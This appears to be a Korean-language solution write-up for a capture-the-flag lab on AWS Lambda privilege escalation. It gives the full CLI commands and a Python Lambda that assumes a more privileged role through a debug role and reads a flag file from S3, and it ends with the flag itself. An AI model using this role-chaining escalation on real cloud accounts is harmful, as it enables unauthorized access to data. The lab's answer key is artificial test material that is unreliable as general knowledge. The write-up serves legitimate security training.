 # [lambda_privesc_bypass] 모범 답안

1. Terraform을 통해 생성된 Access Key와 Secret Key를 사용하여 AWS CLI 프로필을 구성한다.


```bash
aws configure --profile yejin
```
2. 설정이 올바르게 되었는지 확인한다.
```bash
aws sts get-caller-identity --profile yejin
```

3. Lambda 공격용 코드를 작성한다(lambda_function.py).
```bash
import boto3

def lambda_handler(event, context):
    sts = boto3.client('sts')
    assumed_role = sts.assume_role(
        RoleArn="arn:aws:iam::[계정 ID]:role/lambdaManagerRole",
        RoleSessionName="poc-session",
        ExternalId="poc-external-id"
    )
    creds = assumed_role['Credentials']
    s3 = boto3.client('s3',
        aws_access_key_id=creds['AccessKeyId'],
        aws_secret_access_key=creds['SecretAccessKey'],
        aws_session_token=creds['SessionToken']
    )
    obj = s3.get_object(Bucket="flag-bucket-lambda-privesc", Key="flag.txt")
    flag = obj['Body'].read().decode()
    print("FLAG:", flag)
    return {"flag": flag}
```

4. 작성한 Lambda 코드를 zip으로 압축한다.
```bash
zip function.zip lambda_function.py
```

5. Lambda 함수를 생성한다.
```bash
aws lambda create-function \
  --function-name privEscLambda \
  --runtime python3.12 \
  --role arn:aws:iam::[계정 ID]:role/DebugRole \
  --handler lambda_function.lambda_handler \
  --zip-file fileb://function.zip \
  --region ap-northeast-2 \
  --profile yejin
```
6. 만약 에러가 나면 기본 3초인 timeout을 10초로 설정한다.
```bash
aws lambda update-function-configuration \
  --function-name privEscLambda \
  --timeout 10 \
  --region ap-northeast-2 \
  --profile yejin
```

7. Lambda 함수를 실행하고 flag를 출력한다.
```bash
aws lambda invoke \
  --function-name privEscLambda \
  --payload '{}' \
  --log-type Tail \
  --query 'LogResult' \
  --output text \
  --region ap-northeast-2 \
  --profile yejin \
  outfile.txt | base64 -d
```

FLAG{happyhappyhappy~!}



